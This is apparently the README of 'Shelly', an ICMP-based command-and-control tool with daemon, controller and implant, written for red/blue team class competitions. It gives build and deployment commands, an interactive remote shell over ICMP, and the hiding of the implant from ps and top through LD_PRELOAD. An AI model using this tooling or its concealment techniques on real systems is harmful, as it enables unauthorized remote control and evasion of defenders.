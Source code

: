 # Shelly
## An ICMP based C2 server

Shelly is an ICMP based C2 server that I wrote as a red team tool for my Cyber Defense Techniques class. This tool is intended for educational purposes only, and it's goal is to be used in red/blue team competitions.

Shelly is made up of three parts: A daemon, a controller, and an implant.

The project is named after the rift herald from League of Legends.

![shelly](https://media.tenor.com/0Wx4sAm11vcAAAAd/rift-herald-dance.gif)

### Daemon

The daemon is responsible for receiving join requests from the implant and storing those connections in a small database located in /var/lib/shelly/db.json. Once per minute, the daemon sends out heartbeat requests to check if the implants are still connected. If not, it disconnects them. This daemon gives a nice connection list to the controller.

### Controller

The controller is the mechanism by which the operator can communicate with the targets. This interaction comes in the form of a few commands:

- ls: List connected targets and modules
- rm: Remove a target or all targets
- interact: Interact with a specified target using the ICMP shell
- run: Runs an included module against a specified target or all targets
- broadcast: Broadcasts a message to all users on a target
- connect: Sends a connect command to all targets via the broadcast IP

### Implant

The implant is what actually sits on the target device and listens for commands from the daemon and controller. It's able to parse commands and execute them, then return the response to the controller, as well as listen for join and heartbeat commands to communicate with the daemon.

Auto built releases of the implant can be found under 'Releases' on github.

---

## Requirements and Building

It's reccomended to use pyinstaller to build the implant before deploying it on the target system. This can be done with pyinstaller.

First, install the required dependencies

`pip3 install -r requirements.txt`

Then run pyinstaller. This sould be run on the target OS that you intend to deploy it on.

`sudo pyinstaller -y --onefile ./src/implant.py`

Voila! Now, in dist/ you should have an implant executable.

---

## Simple Usage

In order to use shelly, you first need to deploy the daemon and implants.
Once on the target systems, the implants can be run with `sudo ./implant {ip hex}`
The IP hex is just used to make stuff a bit more confusing for the blue team. In order to generate the ip hex, run an IP through cyberchef
https://gchq.github.io/CyberChef/#recipe=Change_IP_format('Dotted%20Decimal','Hex')&input=MTAuMC4xLjI0Mg

From the C2 server, run the daemon with `sudo python3 shellyd.py`

Finally, the controller can be run.


```
     _          _ _
    | |        | | |
 ___| |__   ___| | |_   _
/ __| '_ \ / _ \ | | | | |
\__ \ | | |  __/ | | |_| |
|___/_| |_|\___|_|_|\__, |
                     __/ |
                    |___/
An ICMP based C2 server and agent

Usage: shelly.py command [-h|--help] [-t|--target] [-m|--module]
                 [-M|--message] [-v|--verbose]

Commands:
  ls            List connected targets
  rm            Remove a target
  interact      Interact with a specified target using the ICMP shell
  run           Runs an included module against a specified target or all targets
  broadcast     Broadcasts a message to all users on a target
  connect       Sends a connect command to all targets

Options:
  -h/--help     show this help message and exit
  -t/--target   The target to interact with/run modules on. Specifying 'all' will select ALL targets.
  -m/--module   The module to use for the run command
  -M/--message  The message to be sent with broadcast. Contain the string with quotation marks
  -v/--verbose  Verbosity argument
```

`sudo python3 shelly.py`

Note: All scripts must be run with sudo as it is required by scapy.


## Advanced Deployment

Shelly implants are set to automatically build with pyinstaller via Github actions in order to build standalone executables for competition deployment. These implants can then be sent to multiple targets using the ansible deploy script located in `./deploy/implant`. This ansible script not only deploys the implant to the targets, but also uses an ldpreload to mask the executable from commands like ps and top. This feature is taken from Gianluca Borello's ![libprocesshider](https://github.com/gianlucaborello/libprocesshider).

To run the ansible, add hosts to the inventory.ini file, and ensure you have and SSH key and password for a sudo user.

Once these prerequisites are satisfied, run the ansible:

```bash
ansible-playbook -i inventory.ini deploy.yaml -K
```

Once the implants have been deployed, the shelly daemon can be initialized by copying the shelly code to /usr/bin/shelly, and initializing the daemon

```bash

$ sudo cp -r shelly /usr/bin/shelly
$ sudo cp shelly/deploy/server/shellyd.service /etc/systemd/system/shellyd.service

$ sudo systemctl daemon-reload
$ sudo systemctl enable shellyd 
$ sudo systemctl start shellyd
```

With the daemon started, the shelly controller can be used to connect all of the implants.

```bash
$ sudo python3 shelly.py connect

$ sudo python3 shelly.py ls
```